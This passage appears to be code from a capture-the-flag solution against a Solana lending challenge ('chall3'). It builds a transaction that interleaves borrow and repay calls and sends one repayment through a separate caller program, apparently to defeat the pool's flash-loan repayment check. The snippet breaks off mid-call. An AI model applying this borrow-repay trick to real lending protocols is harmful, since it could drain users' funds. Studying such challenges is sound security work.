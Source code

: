 ```js
    // repay 25
    txn.add(program.instruction.repay(new BN(25), {
        accounts: {
            chall3: program._programId,
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));


    // borrowing 12 
    txn.add(program.instruction.borrow(new BN(12), {
        accounts: {
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            instructions: SYSVAR_INSTRUCTIONS_PUBKEY,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));

    // call to repay instruction via our caller program
    txn.add(callerProgram.instruction.callRepay({
        accounts: {
            chall3: accounts.programId,
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            tokenProgram: TOKEN_PROGRAM_ID,
        }
    }));

    // borrowing 12
    txn.add(program.instruction.borrow(new BN(12), {
        accounts: {
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            instructions: SYSVAR_INSTRUCTIONS_PUBKEY,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));

    // repay 12
    txn.add(program.instruction.repay(new BN(12), {
        accounts: {
            chall3: program._programId,
            player: player.publicKey,
            user: player.publicKey,
```